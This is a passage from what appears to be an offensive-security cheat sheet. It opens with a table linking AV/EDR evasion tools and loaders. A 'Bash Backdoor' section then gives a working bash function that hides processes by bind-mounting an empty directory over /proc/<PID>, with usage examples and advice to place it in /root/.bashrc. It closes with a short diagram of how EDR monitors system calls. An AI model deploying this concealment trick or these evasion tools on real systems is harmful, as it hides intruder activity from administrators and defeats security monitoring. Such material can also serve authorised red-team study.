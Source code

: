 | Ruy-Lopez | This repository contains the Proof-of-Concept(PoC) for a new approach to completely prevent DLLs from being loaded into a newly spawned process. | https://github.com/S3cur3Th1sSh1t/Ruy-Lopez |
| SysWhispers | AV/EDR evasion via direct system calls. | https://github.com/jthuraisamy/SysWhispers |
| SysWhispers2 | AV/EDR evasion via direct system calls. | https://github.com/jthuraisamy/SysWhispers2 |
| SysWhispers3 | SysWhispers on Steroids - AV/EDR evasion via direct system calls. | https://github.com/klezVirus/SysWhispers3 |
| Tartarus' Gate - Bypassing EDRs | TartarusGate, Bypassing EDRs | https://github.com/trickster0/TartarusGate |
| Tartarus-TpAllocInject | This is a simple loader that was published along with the blog post for Nettitude Labs on "Creating an OPSEC safe loader for Red Team Operations". | https://github.com/nettitude/Tartarus-TpAllocInject |
| Win32 Offensive Cheatsheet | Win32 and Kernel abusing techniques for pentesters | https://github.com/matthieu-hackwitharts/Win32_Offensive_Cheatsheet |
| Windows API Function Cheatsheets | A reference of Windows API function calls, including functions for file operations, process management, memory management, thread management, dynamic-link library (DLL) management, synchronization, interprocess communication, Unicode string manipulation, error handling, Winsock networking operations, and registry operations. | https://github.com/7etsuo/windows-api-function-cheatsheets |

## Bash Backdoor

This is an old Linux trick executed in `Bash` that simply `over-mounts` a particular `PID` in `/proc` with a useless, empty directory, so that `/proc/<PID>` doesn't get populated with the usual process information (invisible to the `ps` command, for example).
Requires `root` permissions; either execute it in your shell or slap it into `/root/.bashrc`.

Thanks to Alh4zr3d and THC for sharing!

```console
hide()
{
[[ -L /etc/mtab ]] && { cp /etc/mtab /etc/mtab.bak; mv /etc/mtab.bak /etc/mtab; }
_pid=${1:-$$}
[[ $_pid =~ ^[0-9]+$ ]] && { mount -n --bind /dev/shm /proc/$_pid && echo "[Backdoor] PID $_pid is now hidden"; return; }
local _argstr
for _x in "${@:2}"; do _argstr+=" '${_x//\'/\'\"\'\"\'}'"; done
[[ $(bash -c "ps -o stat= -p \$\$") =~ \+ ]] || exec bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
}
```

### Examples

- Hide the current shell/PID: `hide`
- Hide process with pid 31337: `hide 31337`
- Hide `sleep 1234`: hide sleep 1234
- Start and hide `sleep 1234` as a background process: `hide nohup sleep 1234 &>/dev/null &`

## Endpoint Protection & Response (EDR)

### Diagram of System Calls

```console
    Kernel

      ^ (Syscall)
      |

    ntdll.dll < Monitored by EDR

      ^ (NtAllocateVirtualMemoryEx)
      |

    Win32 API
    (System32 DLLs)

      ^ (VirtualAllocEx)
```